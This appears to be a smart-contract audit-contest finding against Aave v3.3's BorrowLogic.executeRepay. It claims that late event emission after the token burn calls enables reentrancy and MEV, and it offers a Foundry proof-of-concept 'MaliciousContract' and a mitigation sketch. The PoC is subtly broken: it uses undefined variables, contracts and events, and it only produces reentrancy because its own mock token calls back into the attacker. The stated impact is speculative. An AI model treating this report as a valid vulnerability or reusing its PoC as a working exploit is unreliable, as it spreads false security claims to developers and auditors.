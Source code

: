 Fast Scarlet Beaver

High

# Event ordering manipulation enables MEV and state inconsistencies

### Summary

Incorrect event emission ordering in executeRepay allows malicious actors to manipulate protocol state tracking as external burn calls enable reentrancy before critical events are emitted


### Root Cause

In case it's a mistake in the code: In BorrowLogic.sol (https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/protocol/libraries/logic/BorrowLogic.sol#L47) the `ReserveUsedAsCollateralDisabled` event is emitted after external calls to `variableDebtToken.burn()` and `aToken.burn()`, violating checks-effects-interactions


### Internal Pre-conditions

1. User has supplied collateral and taken out a variable rate loan
2. User is repaying with aTokens
3. The repayment would fully exhaust the user's aToken balance

### External Pre-conditions

_No response_

### Attack Path

1. Attacker calls `executeRepay` with `useATokens=true`
2. Function makes external call to `variableDebtToken.burn()`
3. Attacker's malicious contract performs reentrant calls during burn
4. Another external call is made to `aToken.burn()`
5. `ReserveUsedAsCollateralDisabled` event is emitted last
6. MEV bots/integrations see events in wrong order

### Impact

* Protocol integrators and MEV bots receive incorrect state information leading to:
  - Incorrect liquidation attempts
  - Failed transactions due to state inconsistency
  - Potential arbitrage opportunities from state desync
  - Increased MEV extraction possibilities

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "../src/contracts/protocol/libraries/logic/BorrowLogic.sol";

contract ReentrancyTest is Test {
    // Mock contracts
    MockVariableDebtToken public variableDebtToken;
    MockAToken public aToken;
    MaliciousContract public attacker;
    
    // Test accounts
    address public user = address(1);
    
    function setUp() public {
        // Deploy mock contracts
        variableDebtToken = new MockVariableDebtToken();
        aToken = new MockAToken();
        attacker = new MaliciousContract(address(variableDebtToken), address(aToken));
        
        vm.label(address(attacker), "Attacker");
    }
    
    function testReentrancyEventOrder() public {
        // Setup initial state
        uint256 initialDebt = 100 ether;
        variableDebtToken.setBalance(address(attacker), initialDebt);
        aToken.setBalance(address(attacker), initialDebt);
        
        // Create repayment params
        DataTypes.ExecuteRepayParams memory params = DataTypes.ExecuteRepayParams({
            asset: address(0),
            amount: initialDebt,
            interestRateMode: DataTypes.InterestRateMode.VARIABLE,
            onBehalfOf: address(attacker),
            useATokens: true
        });
        
        // Start recording events
        vm.recordLogs();
        
        // Execute attack
        attacker.executeAttack(params);
        
        // Get emitted events
        Vm.Log[] memory entries = vm.getRecordedLogs();
        
        // Verify event order manipulation
        assertEventOrder(entries);
    }
    
    // Helper to verify events were manipulated
    function assertEventOrder(Vm.Log[] memory entries) internal {
        bool foundReentrancyEvent = false;
        bool foundCollateralEvent = false;
        
        for (uint i = 0; i < entries.length; i++) {
            if (entries[i].topics[0] == keccak256("ReentrantCall(address)")) {
                foundReentrancyEvent = true;
            }
            if (entries[i].topics[0] == keccak256("ReserveUsedAsCollateralDisabled(address,address)")) {
                foundCollateralEvent = true;
                // Verify reentrant call happened before collateral disabled event
                assertTrue(foundReentrancyEvent, "Reentrancy event should occur before collateral event");
            }
        }
    }
}

// Malicious contract that performs the reentrancy attack
contract MaliciousContract {
    IVariableDebtToken public variableDebtToken;
    IAToken public aToken;
    
    constructor(address _variableDebtToken, address _aToken) {
        variableDebtToken = IVariableDebtToken(_variableDebtToken);
        aToken = IAToken(_aToken);
    }
    
    // Function to start the attack
    function executeAttack(DataTypes.ExecuteRepayParams memory params) external {
        // Trigger repayment which will call back into this contract
        borrowLogic.executeRepay(reservesData, reservesList, userConfig, params);
    }
    
    // Callback function that gets triggered during burn
    function onBurn(address, uint256, uint256) external {
        emit ReentrantCall(msg.sender);
        // Perform malicious action here
        // For PoC we just emit an event to prove reentrancy
    }
}

// Additional mock contracts
contract MockAToken {
    mapping(address => uint256) private _balances;
    
    function setBalance(address account, uint256 amount) external {
        _balances[account] = amount;
    }
    
    function balanceOf(address account) external view returns (uint256) {
        return _balances[account];
    }
    
    function burn(
        address user,
        address target,
        uint256 amount,
        uint256 index
    ) external {
        require(_balances[user] >= amount, "Insufficient balance");
        _balances[user] -= amount;
        // Call onBurn to trigger reentrancy
        MaliciousContract(user).onBurn(target, amount, index);
    }
}
```

### Mitigation

```solidity
function executeRepay(...) external returns (uint256) {
    // Cache initial state
    bool isCollateral = userConfig.isUsingAsCollateral(reserve.id);
    
    // Emit events before external calls
    if (isCollateral && paybackAmount == variableDebt) {
        emit ReserveUsedAsCollateralDisabled(params.asset, msg.sender);
    }
    
    // Perform external calls
    reserveCache.nextScaledVariableDebt = IVariableDebtToken(...).burn(...);
    IAToken(...).burn(...);
    
    // Update state after external calls
    if (isCollateral && IAToken(...).scaledBalanceOf(msg.sender) == 0) {
        userConfig.setUsingAsCollateral(reserve.id, false);
    }
}
```
